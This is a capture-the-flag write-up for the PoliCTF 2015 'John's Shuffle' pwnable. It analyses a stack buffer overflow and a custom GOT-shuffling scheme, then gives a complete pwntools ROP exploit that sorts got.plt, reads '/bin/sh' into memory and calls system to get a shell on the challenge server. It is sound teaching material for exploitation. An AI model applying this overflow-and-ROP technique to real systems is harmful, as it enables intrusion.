 # PoliCTF 2015: John's Shuffle

**Category:** Pwnable
**Points:** 350
**Solves:** 55
**Description:**

> John is completely drunk and unable to protect his poor stack.. Fortunately he can still count on his terrific shuffling skills. Connect to
> shuffle.polictf.it:80
> GPG key: PenOrmunonCerwivpagsyasOwirOjVed
> [http://download.polictf.it/johns-shuffle_ebee3fc8684b5802b681ade5dd06623f.tar.gz.gpg](Download)

## Write-up
Runnning file on johns-shuffle:
>```bash
> $ file johns-shuffle
> johns-shuffle: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=8a7ccb88d6259fdf5b193f17dc4d8183ada66b64, not stripped
>```

Checksec:
>```bash
>gdb-peda$ checksec
>CANARY    : disabled
>FORTIFY   : disabled
>NX        : ENABLED
>PIE       : disabled
>RELRO     : Partial
>```

Looks like a 32-bit binary with NX and partial RELRO; this gives an idea of how to approach the exploit.

After tracing through my input, I found that it was being read in through an fgets call here:

>```assembly
> .text:08048F57 mov     dword ptr [esp+4], 44h ; n
> .text:08048F5F lea     eax, [esp+2Ch]
> .text:08048F63 mov     [esp], eax      ; s
> .text:08048F66 call    _fget
>```

The fgets function is being called with a size of 68, and after analyzing the size of the actual array in IDA, we can see that the size is 20 bytes. So after 20 bytes of input we achieve a stack based buffer overflow. Since the binary isn't compiled with a Canary we can simply overwrite the return address.

So next we look for ways to make the binary hit a return instruction. It seems like the main loop breaks when the call to exitcompare returns 1 or if seed\_2 is less than 0. The exitcompare function just seems to check if the first 4 bytes is exactly "exit" and returns 1 if they are. Seed\_2 initially is set to seed\_1 in the shuffle function and is decremented by half of seed_1 each loop. Seed\_1 is also initialized to the current time, which gives us 3 loops before the check fails. But really for all intents and purposes seed\_2 is really just a counter.

Looking at the list of imports, we see a lot of interesting functions such as system, read, write, execv, etc. 
_If you are looking at this in gdb, make sure to enable set follow-fork-mode parent since system(0) is called in shuffle._ So why not use read to write "/bin/sh\0" somewhere into the binary and call system! 

However, during runtime it seems that read@plt instead points to somewhere else:
>```assembly
>[----------------------------------registers-----------------------------------]
>EAX: 0x0 
>EBX: 0xb7784000 --> 0x1abda8 
>ECX: 0x4 
>EDX: 0xb763dee0 (<_IO_puts>:	push   ebp)
>ESI: 0x0 
>EDI: 0x0 
>EBP: 0x41414141 ('AAAA')
>ESP: 0xbff8f510 --> 0xa ('\n')
>EIP: 0x8048690 (<read@plt>:	jmp    DWORD PTR ds:0x804b00c)
>EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
>[-------------------------------------code-------------------------------------]
>   0x8048686:	jmp    DWORD PTR ds:0x804b008
>   0x804868c:	add    BYTE PTR [eax],al
>   0x804868e:	add    BYTE PTR [eax],al
>=> 0x8048690 <read@plt>:	jmp    DWORD PTR ds:0x804b00c
> | 0x8048696 <read@plt+6>:	push   0x0
> | 0x804869b <read@plt+11>:	jmp    0x8048680
> | 0x80486a0 <isnan@plt>:	jmp    DWORD PTR ds:0x804b010
> | 0x80486a6 <isnan@plt+6>:	push   0x8
> |->   0xb763dee0 <_IO_puts>:	push   ebp
>       0xb763dee1 <_IO_puts+1>:	push   edi
>       0xb763dee2 <_IO_puts+2>:	push   esi
>       0xb763dee3 <_IO_puts+3>:	push   ebx
>                                                                  JUMP is taken
>[------------------------------------stack-------------------------------------]
>0000| 0xbff8f510 --> 0xa ('\n')
>0004| 0xbff8f514 --> 0xbff8f5a4 --> 0xbff912e3 ("/home/ubuntu/johns-shuffle")
>0008| 0xbff8f518 --> 0xbff8f5ac --> 0xbff91312 ("XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat0")
>0012| 0xbff8f51c --> 0xb77b0cea (<call_init+26>:	add    ebx,0x12316)
>0016| 0xbff8f520 --> 0x1 
>0020| 0xbff8f524 --> 0xbff8f5a4 --> 0xbff912e3 ("/home/ubuntu/johns-shuffle")
>0024| 0xbff8f528 --> 0xbff8f544 --> 0x7049d088 
>0028| 0xbff8f52c --> 0x804b040 --> 0xb75f1990 (<__libc_start_main>:	push   ebp)
>[------------------------------------------------------------------------------]
>Legend: code, data, rodata, value
>0x08048690 in read@plt ()
>gdb-peda$
>```

At first I had found it strange that the binary has no entries in the global offset table section, but it seems to be implementing its own. For those who don't know, the got and plt entries are what allows for binaries to be dynamically linked to external libraries. The shuffle and unshuffle functions then seem to be shifting around the got.plt entries which hold the resolved libc addresses. The shuffle is based on a random seed which is initialized in seed\_1 so each time the binary is run, the libc addresses will be in different areas. However srand is called again with seed\_1 each loop so that the same random number is used for each process.

There are a couple of ways to defeat this, 
1. Leak a libc address and jump to libc instead
2. Predict the pseudorandomness
3. Force the binary into a deterministic state

At first I tried to bruteforce a plt entry until it would be the write function and try to leak a libc address, but it didn't seem work out too well. In the end I realized that you could do #3, I saw the bubble\_sort function and figured that there is only one way that you can sort the got.plt entries and if you could do that, then you would know which plt entries matched up to where and it would be the same no matter how you shuffled it. I just analyzed which entries matched up to where and called those plt entries instead. Once the got.plt was sorted, the shuffle and unshuffle would just undo each other and at the end of the return the entries would stay sorted. Another problem I ended up having was that the I ran out of buffer room but I remedied this by chaning main so I could write more. 

So putting it all together:

>```python
>from pwn import *
>from struct import unpack
>
>context.log_level ="info"
>
>#r = remote('localhost',8888)
>r = remote('shuffle.polictf.it',80)
>padding = "A"*32
>padding2 = "A"*36
>padding3 = "A"*24
>
>bubsort = p32(0x0804891D)
>gotplt = p32(0x0804b00c)
>
>popret = p32(0x8048675)
>pop2ret = p32(0x804901e)
>pop3ret = p32(0x804901d)
>
>system_plt = p32(0x80486c0)
>read_plt = p32(0x8048750)
>
>main = p32(0x08048EBF)
>buff = p32(0x0804B070)
>
>r.send(padding+bubsort+pop2ret+gotplt+p32(25)+main+'\n') #sort the got.plt
>r.send('exit\n')
>
>r.send(padding2+read_plt+pop3ret+p32(0)+buff+p32(8)+main+'\n') #read /bin/sh into somewhere
>r.send('exit\n')
>
>pause(3) #wait for the read to go through
>r.send('/bin/sh\x00')
>
>r.send(padding3+system_plt+popret+buff+system_plt+popret+buff+'\n') #at this point the stack is pretty messed up so this line is pretty yolo
>r.send('exit\n')
>
>r.clean()
>r.interactive()
>```

## Other write-ups and resources

* none yet

